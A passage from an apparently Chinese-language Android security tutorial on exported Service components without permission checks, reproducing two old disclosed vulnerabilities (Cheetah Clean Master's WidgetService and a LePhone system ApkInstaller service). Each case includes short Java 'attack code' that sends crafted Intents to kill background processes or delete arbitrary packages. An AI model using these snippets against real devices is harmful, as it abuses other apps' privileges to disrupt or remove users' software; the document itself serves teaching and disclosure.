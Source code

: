 ```
当一个service配置了intent-filter默认是被导出的，如果没对调用Service进行权限，限制或者是没有对调用者的身份进行有效验证，那么恶意构造的APP都可以对此Service传入恰当的参数进行调用，导致恶意行为发生比如调用具有system权限的删除卸载服务删除卸载其他应用。

```

#### [](#（2）漏洞复现)（2）漏洞复现

案例 1：[**猎豹清理大师内存清理权限泄露漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-048735)

 

漏洞描述：

```
Android应用程序猎豹清理大师（原金山清理大师）4.0.1及以下版本存在权限泄漏漏洞，泄露的权限为android.permission.RESTART_PACKAGES，用来结束进程来达到清理内存的目的。当没有申请此权限的app向猎豹清理大师发送相应的intent时，便可以结束后台运行的部分app进程。
猎豹清理大师暴露了com.cleanmaster.appwidget.WidgetService服务组件（详见下图），当向此服务发送action为com.cleanmaster.appwidget.ACTION_FASTCLEAN的intent时，便可结束后台运行的一些app进程。

```

![](https://bbs.pediy.com/upload/attach/202109/905443_UNDUAUVQQNFQGW6.png)

 

攻击代码：

```
Intent intent = new Intent();
intent.setAction("com.cleanmaster.appwidget.ACTION_FASTCLEAN");
intent.setPackage("com.cleanmaster.appwidget.WidgetService");
startService(intent);

```

我们通过 Intent 隐私启动，给服务发送 action 为 com.cleanmaster.appwidget.ACTION_FASTCLEAN 的 intent 时，便可结束后台运行的一些 app 进程

 

案例 2：[**乐 phone 手机任意软件包安装删除漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2010-0509)

 

漏洞描述：

```
乐phone手机出厂默认包含一个名为jp.aplix.midp.tools的应用包。本应用以system权限运行，并向其他应用提供ApkInstaller服务，用来进行对Apk文件的安装和删除。通过向ApkInstaller服务传递构造好的参数，没有声明任何权限的应用即可达到安装和删除任意Package的行为，对系统安全性产生极大影响。

```

攻击代码：

```
Intent in = new Intent();
in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));
in.putExtra("action", "deleteApk");
in.putExtra("pkgName", "xxxxx");
startService(in);

```
